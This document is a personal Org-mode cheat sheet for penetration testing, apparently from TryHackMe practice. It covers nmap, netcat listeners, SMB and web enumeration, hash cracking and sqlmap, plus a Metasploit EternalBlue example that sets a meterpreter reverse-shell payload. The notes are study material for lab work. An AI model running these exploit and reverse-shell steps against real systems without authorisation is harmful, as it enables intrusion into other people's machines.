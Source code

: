 #+TITLE: Hacking - README
#+STARTUP:CONTENT

* Setup
** Guest

	#+begin_src shell
		sudo apt install spice-vdagent

		sudo systemctl enable serial-getty@ttyS0.service
		sudo systemctl start serial-getty@ttyS0.service
	#+end_src

** Host

	 #+begin_src shell
		 vish list
		 virsh console <guest>
	 #+end_src

	#+begin_src shell
		pacman -S net-tools gnu-netcat bridge-tools
	#+end_src

** TryHackMe

	 #+begin_src shell
		 mkdir tryhackme
		 sudo mount -t 9p -o trans=virtio /media/tryhackme tryhackme/
		 nmcli connection import type openvpn file tryhackme/JoltedSloth.ovpn
	 #+end_src

* Network utilities
** nmap                                                             :network:

	 #+begin_src shell
		 nmap -p- -T4 <ip>
		 nmap -sC -sV -p<ports> <ip>

		 ports=$(nmap -p- -T4 192.168.1.1 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
	 #+end_src

*** Scans

		| Switch | Description          |
		|--------+----------------------|
		| -sT    | TCP Connect Scan     |
		| -sS    | Syn "Half-open" Scan |
		| -sU    | UDP scan             |

*** Port specification

		| Switch | Description              | Example                   |
		|--------+--------------------------+---------------------------|
		| -p     | Port or range            | nmap -p 22-80 192.168.1.1 |
		| -p-    | Scan all ports           | nmap -p- 192.168.1.1      |
		| -F     | Fast port scan (top 100) | nmap -F 192.168.1.1       |

*** Service and version detection

		| Switch | Description                                                                                     | Example              |
		|--------+-------------------------------------------------------------------------------------------------+----------------------|
		| -A     | "Aggressive scan". Enables OS detection, version detection, script scanning, and traceroute.    | nmap -A 192.168.1.1  |
		| -O     | Enable OS detection.                                                                            | nmap -O 192.168.1.1  |
		| -sC    | Performs a script scan using the default set of scripts. Contains scripts considered intrusive. | nmap -sC 192.168.1.1 |
		| -sV    | Detect the version of services                                                                  | nmap -sV 192.168.1.1 |

*** Output

		| Switch  | Description             | Example             |
		|---------+-------------------------+---------------------|
		| -oN     | Normal output           |                     |
		| -oX     | XML output              |                     |
		| -oG     | Grepable output         |                     |
		| -oA     | Output to all formats   |                     |
		| -v, -vv | Verbosity               |                     |
		| -n      | Never do DNS resolution | nmap -n 192.168.1.1 |
		| --open  | Output only open port   |                     |

** Netcat                                                           :network:

	 #+begin_src shell
		 nc -lnvp 9999
	 #+end_src

	 | Switch | Description                            |
	 |--------+----------------------------------------|
	 | -l     | listen mode, for inbound connects      |
	 | -p     | local port number                      |
	 | -e     | specify filename to exec after connect |
	 | -n     | numeric only IP addresses, no DNS      |
	 | -u     | UDP mode                               |

* Enumeration
** Samba
*** smbmap                                                :samba:enumeration:

		#+begin_src shell
			smbmap -H 192.168.1.1
		#+end_src

		| Options | Description                   |
		|---------+-------------------------------|
		| -u      | Username to authenticate with |
		| -p      | Password to authenticate with |
		| -H      | IP of host                    |

*** smbclient                                             :samba:enumeration:

		ftp-like client to access SMB/CIFS resources on servers.

		#+begin_src shell
			smbclient -L \\\\192.168.1.1
		#+end_src

		| Option | Description                         |
		|--------+-------------------------------------|
		| -I     | Destination IP                      |
		| -u     | Username to authenticate with       |
		| -p     | Password to authenticate with       |
		| -N     | Suppress the normal password prompt |

*** impacket

		Impacket is a collection of Python classes for working with network protocols, with a collection of extremely useful windows scripts.

		[https://github.com/SecureAuthCorp/impacket]

		Note: impacket has scripts that use other protocols and services besides samba. (TryHackMe)

** Web
*** nikto                                                   :web:enumeration:

		`nikto` is a popular web scanning tool that allows users to find common web vulnerabilities. It is commonly used to check for common CVE's such as shellshock, and to get general information about the web server that you're enumerating. (TryHackMe)
		#+end_quote


		#+begin_src shell

		#+end_src

	 | Switch    | Description                                     | Example           |
	 |-----------+-------------------------------------------------+-------------------|
	 | -h, -host | Host(s) to target                               | -host 192.168.1.1 |
	 | -id       | ID and password to use for basic authentication | -id "id:passwod"  |

*** dirsearch                                               :web:enumeration:

		#+begin_quote
		An advanced command-line tool designed to brute force directories and files in webservers, AKA web path scanner
		#+end_quote

		[https://github.com/maurosoria/dirsearch]

		#+begin_src shell
			sudo apt-get install dirsearch

			dirsearch -u http://10.10.10.28 -w /usr/share/wordlists/dirb/common.txt
		#+end_src

	 | Switch          | Description                               | Example                                                     |
	 |-----------------+-------------------------------------------+-------------------------------------------------------------|
	 | -u, --url       | Target URL                                | dirsearch -u http://192.168.1.1                             |
	 | -w, --wordlists | Customize wordlists (separated by commas) | dirsearch -u TARGET -w /usr/share/wordlists/dirb/common.txt |

*** gobuster                                                :web:enumeration:

		A web path scanner.

		#+begin_src shell
			sudo apt-get install gobuster
			gobuster dir -u http://192.168.1.1 -w /usr/share/wordlists/dirb/common.txt
		#+end_src

	 | Commands | Description                          | Example                            |
	 |----------+--------------------------------------+------------------------------------|
	 | dir      | Uses directory/file enumeration mode | gobuster dir -u http://192.168.1.1 |

	 | Flag           | Description |
	 |----------------+-------------kt|
	 | -w, --wordlist |             |

**** dir

		 | Flag | Description                     |
		 |------+---------------------------------|
		 | -x   | File extension(s) to search for |

* Exploitation
** Reverse shells

	 In Kali, there are some in `/usr/share/webshells`.

* Frameworks
** Metasploit                                                     :framework:

	 Metasploit is one of the most popular penetration testing frameworks around. It contains a large database of almost every major CVE, which you can easily use against a machine. (TryHackMe).

	 #+begin_src shell
		 sudo apt install metasploit-framework
	 #+end_src

	 *Example*

	 #+begin_src shell
		 msfconsole
		 search "eternal blue"
		 use exploit/windows/smb/ms17_010_eternalblue
		 set RHOSTS 192.168.1.1
		 set RPORT 80
		 set PAYLOAD windows/x64/meterpreter/reverse_tcp
		 exploit
	 #+end_src

	 | Command | Description                     |
	 |---------+---------------------------------|
	 | search  | Search modules                  |
	 | use     | Use module                      |
	 | info    | Display information on a module |

*** Options

 | Name    | Description        | Example                |
 |---------+--------------------+------------------------|
 | RHOSTS  | Set target host(s) | set RHOSTS 192.168.1.1 |
 | RPORT   | Set target port    | set RPORT 80           |
 | payload | Set payload        | set payload <value>    |

*** Exploit

 | Flag | Description           |
 |------+-----------------------|
 | -j   | Run in the background |

*** Sessions

 | Flag | Description                            |
 |------+----------------------------------------|
 | -i   | Interact with the supplied sessions id |

*** Meterpreter

		Meterpreter is metasploits own "control center" where you can do various things to interact with the machine. (TryHackMe)
		[https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/]

		Note: Regular shells can usually be upgraded to meterpreter shells by using the module post/multi/manage/shell_to_meterpreter.

		| Command    | Description                                                               |
		|------------+---------------------------------------------------------------------------|
		| download   | Download a file from the machine                                          |
		| upoad      | Upload a file to the machine                                              |
		| ps         | List all running processes                                                |
		| migrate    | Change processes on the victim                                            |
		| ls         | List files in the current directory on the machine                        |
		| execute    | Execute a command on the remote host                                      |
		| shell      | Start an interactie shell on the remote host                              |
		| search     | Search files on the remote                                                |
		| cat        | Output file on the remote                                                 |
		| background | Put meterpreter shell in the background (allows to run other msf modules) |

* Privilege escalation
** Linux

	 [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/]
	 [https://github.com/rebootuser/LinEnum]
	 [https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh]
	 [https://github.com/mzet-/linux-exploit-suggester]

*** GTFOBins

		#+begin_quote
		GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.
		#+end_quote

		[https://gtfobins.github.io/]

*** sudo

		| Switch     | Description                                        |
		|------------+----------------------------------------------------|
		| -l, --list | list user's privileges or check a specific command |

** Windows

	[https://www.fuzzysecurity.com/tutorials/16.html]
	[https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp]
	[https://github.com/411Hall/JAWS]
* Hash Cracking

	Note: Different hashing algorithms treat salts differently. Some prepend them and some append them. Research what it is you're trying to crack, and make the distinction. (TryHackMe)

** hashid                                                          :cracking:

	 Identify the different types of hashes used to encrypt data.

** hashcat                                                         :cracking:

	 [https://hashcat.net/wiki/doku.php?id=example_hashes]

	 | Flag | Description               |
	 |------+---------------------------|
	 | -m   | Sets the mode (hash-type) |
	 | -a   | Sets the attack mode      |

** John the Ripper                                                 :cracking:

	 Cracking zip file.

	 #+begin_src shell
		 zip2john target.zip > target.zip.hashes
		 john target.zip.hashes -w /usr/share/wordlists/rockyou.txt
	 #+end_src

	 | Flag           | Description                                        |
	 |----------------+----------------------------------------------------|
	 | -format:FORMAT | Allows to override the ciphertext format detection |
	 | -wordlist:FILE | Enable the wordlist mode, reading words from FILE. |

* SQL Injection
*** sqlmap                                                        :injection:

		[https://www.owasp.org/index.php/SQL_Injection]

		sqlmap-cheat-sheet:
		[https://gist.github.com/jkullick/03b98b1e44f03986c5d1fc69c092220d]

		| Option      | Description                                        |
		|-------------+----------------------------------------------------|
		| --batch     | Never ask for user input, use the default behavior |
		| -u          | Url to check                                       |
		| -p          | Testable parameter(s)                              |
		| -data       | Data string to be ssent through POST               |
		| --dbs       | Enumerate databases                                |
		| --tables    | Enumerate tables                                   |
		| --columns   | Enumerate columns                                  |
		| --passwords | Enumerate passwords                                |
		| -D          | Database to enumerate                              |
		| -T          | Table to enumerate                                 |
		| -C          | Column to enumerate                                |
		| --os-shell  | Prompt for an interative operating system shell    |
